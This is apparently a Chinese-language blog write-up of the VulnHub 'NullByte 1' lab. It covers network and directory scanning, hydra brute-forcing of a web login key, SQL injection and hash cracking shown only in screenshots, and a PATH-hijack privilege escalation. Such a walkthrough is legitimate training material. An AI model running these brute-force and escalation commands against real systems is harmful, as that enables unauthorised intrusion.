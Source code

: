 +++
title = '0x001 NullByte 1'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# IP发现&端口扫描

```
sudo nmap -Pn -sS -p- --min-rate 10000 192.168.154.0/24
```

![](/vulnhub_img/WEBRESOURCE51a6e0215fb9c3cebfcf5ca850a3aabd截图.png)

```
sudo nmap -Pn -sV -p 80,111,777,42557 --min-rate 10000 192.168.154.129
```

![](/vulnhub_img/WEBRESOURCE1440a52bba0d13119375a35bb5d91007截图.png)

# 目录扫描

```
gobuster dir -u http://192.168.154.129/ -w /usr/share/wordlists/dirb/common.txt
```

![](/vulnhub_img/WEBRESOURCEb1eb9f90b824cdd50b178a4e85082979截图.png)

# 发现隐藏信息的图片，有路径

```
命令：exiftool main.gif
```

# 根据提示进行爆破，hydra http 爆破

示例：

解释表单参数，“路径:用户名:密码:F=错误返回”

```text
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^password=^PASS^:F=Invalid" -t 64
```

抓包看提交参数，这里经过摸索，使用-e n 参数来只爆破用户名

完整命令如下：

```
hydra -L /usr/share/wordlists/rockyou.txt -e n 192.168.154.129 http-post-form "/kzMb5nVYJw/index.php:key=^USER^:F=invalid" -t 60
```

获得账号：elite

![](/vulnhub_img/WEBRESOURCE685e129e46e63fad64e61d8f8010a2a2截图.png)

# SQL注入

![](/vulnhub_img/WEBRESOURCEcbc84a3ac2d9f43525d3ace151bdd022截图.png)

# 破解hash，Base64解码一下

![](/vulnhub_img/WEBRESOURCEa7afcc6b8b1e2bda6028950386326cd4截图.png)

# 翻查敏感信息

修复文件?

![](/vulnhub_img/WEBRESOURCE98de53f7ca8b73524c3345126a406676截图.png)

数据库密码登录失败：

![](/vulnhub_img/WEBRESOURCE2a2c03696ff2aa3548238b913ef2d433截图.png)

修复方式不清楚，看了WP，history内有提示：

![](/vulnhub_img/WEBRESOURCEe862cd1dc166a4359be8616e2e2b3e81截图.png)

运行：

![](/vulnhub_img/WEBRESOURCEab46364737416c405c67e5b628016630截图.png)

# 提权

```
ln -s /bin/sh ps
export PATH=.:$PATH
```

flag:adf11c7a9e6523e630aaf3b9b7acb51d

![](/vulnhub_img/WEBRESOURCEd2db86749c1054315bab21a61de0f601截图.png)

